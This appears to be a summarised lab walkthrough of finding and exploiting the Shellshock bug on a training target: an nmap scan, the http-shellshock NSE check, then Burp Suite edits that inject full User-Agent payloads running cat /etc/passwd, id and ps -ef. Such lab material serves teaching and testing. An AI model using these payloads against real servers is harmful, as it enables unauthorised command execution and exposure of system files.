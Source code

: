 


Here are the summary steps from the document in bullet points:

1. Step 1: Start a terminal and check the IP address of the host.
    
    - Command: `ip addr`
2. Step 2: Run an Nmap scan on the target IP to find open ports (IP address is 192.242.220.3).
    
    - Command: `nmap 192.242.220.3`
    - Identify that port 80 is open.
3. Step 3: Start Firefox and navigate to the target IP. Observe a website running on port 80.
    
4. Step 4: Right-click and select "View Page Source" to inspect the web page.
    
    - Identify that a CGI script is running on the target server.
5. Step 5: Use the Nmap NSE script to check if the server is vulnerable to Shellshock attack.
    
    - Command: `nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi” 192.242.220.3`
    - Determine that the server is vulnerable to Shellshock attack.
6. Step 6: Search for an available exploit for the Shellshock vulnerability.
    
7. Step 7: Access the GitHub link that contains the steps to exploit the vulnerability.
    
    - URL: [https://github.com/opsxcq/exploit-CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271)
    - Learn that the attacker needs to craft a malicious user-agent to exploit the vulnerability.
8. Step 8: Configure Firefox to use Burp Suite and select the "Burp Suite" option in FoxyProxy.
    
9. Step 9: Start Burp Suite, navigate to the Web Application Analysis menu, and select "burpsuite."
    
10. Step 10: Reload the page and intercept the request with Burp Suite. Send the request to the Repeater tab.
    
11. Step 11: Modify the User-Agent and inject the malicious payload.
    
    - Payload: `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`
    - Click the Send button to execute the payload.
12. Step 12: Modify the payload to execute the 'id' command.
    
    - Payload: `() { :; }; echo; echo; /bin/bash -c 'id'`
13. Step 13: Modify the payload to execute the 'ps -ef' command.
    
    - Payload: `() { :; }; echo; echo; /bin/bash -c 'ps -ef'`

These steps illustrate the process of identifying and exploiting the Shellshock vulnerability on the target server using a crafted malicious payload and Burp Suite.